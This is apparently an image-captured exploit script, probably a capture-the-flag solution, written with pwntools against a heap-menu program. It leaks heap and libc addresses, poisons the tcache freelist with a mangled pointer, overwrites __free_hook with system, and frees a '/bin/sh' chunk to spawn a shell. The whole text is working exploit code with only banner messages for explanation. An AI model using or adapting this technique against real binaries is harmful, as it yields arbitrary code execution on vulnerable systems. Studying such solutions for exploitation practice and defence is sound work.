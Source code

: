 ```
message = "======================== LEAK HEAP ADDRESS ======================"
success(message)
add(0, 0x90, 'aaaa')
free(0)
show(0)
p.recvuntil("?\n")
heap = u64(p.recv(5)[-5:].ljust(8, b'\x00'))
heap = heap &lt;&lt; 12
info("HEAP BASE ----&gt; " + hex(heap))

message = "======================== LEAK LIBC ADDRESS ======================"
success(message)
for i in range(7):
    add(i, 0x80, 'dawn it')
add(7, 0x80, 'a')
add(8, 0x10, 'protect')
for i in range(7):
    free(i)

free(7)
edit(7, 'a')
show(7)
libc_base = u64(p.recvuntil(
    '\x7f')[-6:].ljust(8, b'\x00')) - 193 - 0x10 - libc.sym['__malloc_hook']
info("LIBC ----&gt; " + hex(libc_base))
edit(7, '\x00')

message = "======================== TCACHE ATTACK ======================"
success(message)
__free_hook = libc_base + libc.sym['__free_hook']
add(0, 0x20, 'aaaa')
add(1, 0x20, 'bbbb')
free(1)
free(0)
edit(0, p64(pack(heap + 0x730, __free_hook)))
add(0, 0x20, '/bin/sh\x00')
add(1, 0x20, p64(libc_base + libc.sym['system']))
free(0)

p.interactive()
```
